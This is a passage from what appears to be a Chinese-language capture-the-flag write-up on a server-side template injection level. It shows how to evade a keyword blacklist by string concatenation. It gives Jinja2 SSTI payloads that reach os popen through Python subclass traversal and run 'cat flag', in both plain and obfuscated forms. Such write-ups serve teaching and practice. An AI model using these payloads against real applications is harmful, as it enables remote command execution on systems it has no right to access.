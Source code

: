 ### [level 8](#toc_level-8)

[![在这里插入图片描述](assets/1698900310-af530e5da933eff49f0b6fdcf25513d5.png)](https://storage.tttang.com/media/attachment/2022/08/14/0a867607-eb1c-4a43-affc-2461e2c112b4.png)  
这关过滤的有点多，很多关键词都被 ban 了，这个时候可以考虑用字符拼接的方式

```plain
().__class__=()["__cla"+"ss__"] //这里的点被中括号代替了
```

原 payload

```plain
"".__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

修改过后的 payload

```plain
{{""["__cla"+"ss__"]["__ba"+"se__"]["__subcla"+"sses__"]()[133]["__in"+"it__"]["__glo"+"bals__"]['po'+'pen']('cat flag').read()}}
```

[![在这里插入图片描述](assets/1698900310-5f9509462729e8bd89114e034207414f.png)](https://storage.tttang.com/media/attachment/2022/08/14/43e5983b-c086-4b7e-b461-6f76c7e51e8d.png)  
或者这里也可以使用 for+if 语句
